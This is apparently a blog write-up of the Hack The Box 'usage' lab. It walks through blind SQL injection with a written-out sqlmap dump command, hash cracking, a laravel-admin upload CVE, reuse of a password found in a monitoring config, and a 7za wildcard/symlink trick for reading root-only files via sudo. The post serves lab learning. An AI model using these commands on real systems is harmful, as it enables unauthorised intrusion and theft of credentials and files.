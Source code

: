 ```yaml
---
layout: post
title: HTB - usage
date: 2024-12-31 10:57 -0400
---
```


![image](/assets/img/usage.png)

### recon
Starting with nmap

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-17 14:23 -04
Stats: 0:00:43 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 55.02% done; ETC: 14:24 (0:00:35 remaining)
Nmap scan report for linkvortex.htb (10.10.11.47)
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 76.74 seconds
```

### First look
Just a bootstrap login screen.

![image](/assets/img/usage1.png)

Seems to be using laravel.
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Cache-Control: no-cache, private
Date: Tue, 31 Dec 2024 14:53:25 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6Ikd3Rlh1K2k2eUJWWjA1VnpNYWFaaVE9PSIsInZhbHVlIjoiejZxVkc5dzZWdFJ0SUhNM2FoR05ic2RyTyt1TFlhd0FpRGQwdGwzNURYdXlZbGxrbmhlRDZmd1pJdWF0QWFHQWRXN3I2QUM4TU4yaGY5d3p3bmJnT2xDY1VoN29pMWdYMWNKVUhEWTRSdG8wQUZMYnpTa2NVQjhCVVYwZEVlbTYiLCJtYWMiOiI0MDkyMDk0MWQ0YTk4N2JkNzFhNDZiMjZlZTI5OWJkMmRhNmUzY2NjZDM4ZGU3YThiZmVhMTgxYjRhMDFkYzdkIiwidGFnIjoiIn0%3D; expires=Tue, 31 Dec 2024 16:53:25 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=eyJpdiI6IktoVVVCT2NjS2hPVGtiSGY3YXV0anc9PSIsInZhbHVlIjoiS2hYUzE4SlNYTHR3SlFlblpYaCtYaTlmTEhCVGIxS1R5UEsyOHZPOTVEcklDcXdENkkxQjU2VUtwSUFieHZocHVIUmViSFl2aGNXQW5uQUVzZmJ1d0RQeWJrV2hLUlBqbUU1TExCMFVzdTUyK200V1Vod0ZlYXlicWV4d04yVFIiLCJtYWMiOiIzN2I3NmQ4ZTQ2ZWY3ODdmMDA5ZmZiZjM5ODdjNGI5OTJkNDE1YWQ4Mzk3Y2E0YmYxMjBkZDExZTk0NjQ4OGJkIiwidGFnIjoiIn0%3D; expires=Tue, 31 Dec 2024 16:53:25 GMT; Max-Age=7200; path=/; httponly; samesite=lax
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Encoding: gzip
```

### directory bruteforce with php wordlist
Nothing found.

### subdomain bruteforce
admin.usage.htb

### sql injection on forgot password
Sending a "'" in forgot password gives an error. Seems to be a blind injection.
We can then use sqlmap to get the admin password hash.

```bash
sqlmap -r request1.txt --level 5 --risk 3 --threads 10 -p email --batch --dbms=mysql --dump -D usage_blog -T admin_users
```

### bruteforcing the hash
```bash
john --wordlist=/home/shafou/wordlists/rockyou.txt hash.txt
# whatever1
```

We can now access admin.usage.htb

### recon cves

![image](/assets/img/usage4.png)

Looking at the dependencies it seems that encore/laravel-admin is vulnerable to CVE-2023-24249.
You can bypass the png check and upload a php file instead.
Found a poc on github and that gives us the `dash` user shell.

```bash
dash@usage:/var/www/html/project_admin/public/uploads/images$ cat ~/user.txt
cat ~/user.txt
8084f***************************
```

### root

Seems like the next user is probably xander.

```bash
# /etc/passwd
dash:x:1000:1000:dash:/home/dash:/bin/bash
...
xander:x:1001:1001::/home/xander:/bin/bash
```

The most interesting thing is monit service on port 2812.
Taking a look at `~/.monitrc` gives:

```bash
dash@usage:/var/www/html$ cat ~/.monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

Trying it on xander gives a shell.

```bash
dash@usage:/var/www/html/project_admin$ su - xander
Password:
xander@usage:~$
```

### root

```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

Taking a look at it on ghidra shows that the binary runs 7za with a wildcard.

![image](/assets/img/usage6.png)

We can exploit that like this (taken from hacktricks):

```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```

```bash
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Scanning the drive:

WARNING: No more files
81d3c***************************
...
```
